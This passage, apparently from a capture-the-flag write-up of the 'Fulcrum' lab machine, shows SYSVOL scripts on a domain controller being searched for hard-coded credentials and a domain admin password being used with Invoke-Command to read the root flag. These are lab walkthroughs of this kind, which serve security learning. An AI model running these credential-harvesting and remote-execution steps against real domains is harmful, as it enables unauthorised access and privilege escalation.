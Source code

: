 These were default shares, but honestly there was nothing else to look at anymore, so I went for it.

### Shares Enum --> Admin Creds

The `sysvol` share had a ton of `.ps1` files:

```
C:\Users> ls \\dc.fulcrum.local\sysvol\fulcrum.local\scripts


    Directory: \\dc.fulcrum.local\sysvol\fulcrum.local\scripts


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/12/2022  10:34 PM            340 00034421-648d-4835-9b23-c0d315d71ba3.ps1
-a----        2/12/2022  10:34 PM            340 0003ed3b-31a9-4d8f-a152-a234ecb522d4.ps1
-a----        2/12/2022  10:34 PM            340 0010183b-2f84-4d4a-9490-b5ae922e3ba1.ps1
```

I read one of them, and noticed the `user`:

```powershell
# Map network drive v1.0
$User = 'a2ec'
$Pass = '@fulcrum_a92647a8c8e3_$' | ConvertTo-SecureString -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ($User, $Pass)
New-PSDrive -Name '\\file.fulcrum.local\global\' -PSProvider FileSystem -Root '\\file.fulcrum.local\global\' -Persist -Credential $Cred
```

Using this, I can try to find `923a`, which was a valid domain admin. 

```powershell
C:\Users> Select-String -Path "\\dc.fulcrum.local\sysvol\fulcrum.local\scripts\*.ps1" -Pattern 923a

\\dc.fulcrum.local\sysvol\fulcrum.local\scripts\a1a41e90-147b-44c9-97d7-c9abb5ec0e2a.ps1:2:$User = '923a'

C:\Users> type \\dc.fulcrum.local\sysvol\fulcrum.local\scripts\a1a41e90-147b-44c9-97d7-c9abb5ec0e2a.ps1
# Map network drive v1.0
$User = '923a'
$Pass = '@fulcrum_bf392748ef4e_$' | ConvertTo-SecureString -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ($User, $Pass)
New-PSDrive -Name '\\file.fulcrum.local\global\' -PSProvider FileSystem -Root '\\file.fulcrum.local\global\' -Persist -Credential $Cred
```

Great! Now, I had valid credentials. Using this, I can read the flag:

```powershell
$pass = ConvertTo-SecureString '@fulcrum_bf392748ef4e_$' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("fulcrum\923a", $pass)
Invoke-Command -Computer dc.fulcrum.local -ScriptBlock { cat C:/users/administrator/desktop/root.txt } -Credential $cred
```
